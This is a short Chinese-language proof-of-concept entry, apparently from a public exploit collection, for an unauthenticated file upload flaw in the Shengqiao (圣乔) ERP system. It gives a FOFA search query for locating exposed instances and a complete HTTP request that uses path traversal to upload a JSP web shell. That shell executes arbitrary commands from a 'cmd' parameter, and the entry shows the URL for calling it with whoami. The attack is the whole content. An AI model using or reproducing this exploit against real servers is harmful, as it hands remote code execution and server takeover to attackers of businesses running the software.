 # 圣乔ERP系统uploadFile文件上传漏洞

圣乔ERP系统 uploadFile.action 接口存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```javascript
title="圣乔ERP系统"
```

## poc

```javascript
POST /erp/wap/../uploadFile.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Content-Type: multipart/form-data boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip
Connection: close

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="Filedata"; filename="rce.jsp"
Content-Type: image/png

<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b,0,a));}out.print("</pre>");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![image-20241211210137494](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112101562.png)

文件路径:`/erp/wap/../FileStorageDirectorynull/rce.jsp?cmd=whoami`